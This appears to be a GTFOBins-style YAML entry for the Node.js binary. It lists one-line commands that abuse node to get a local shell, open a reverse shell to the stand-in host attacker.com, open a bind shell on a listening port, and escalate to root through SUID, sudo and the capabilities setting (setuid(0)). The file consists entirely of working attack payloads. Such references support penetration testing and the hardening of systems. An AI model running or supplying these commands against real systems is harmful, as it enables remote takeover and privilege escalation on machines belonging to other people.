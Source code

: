```yaml
---
functions:
  shell:
    - code: |
        node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = child_process.spawn("/bin/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        })'
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = child_process.spawn("/bin/sh");
        net.createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT)'
  suid:
    - code: |
        ./node -e 'child_process.spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
  sudo:
    - code: |
        sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
  capabilities:
    - code: |
        ./node -e 'process.setuid(0); child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
---
```

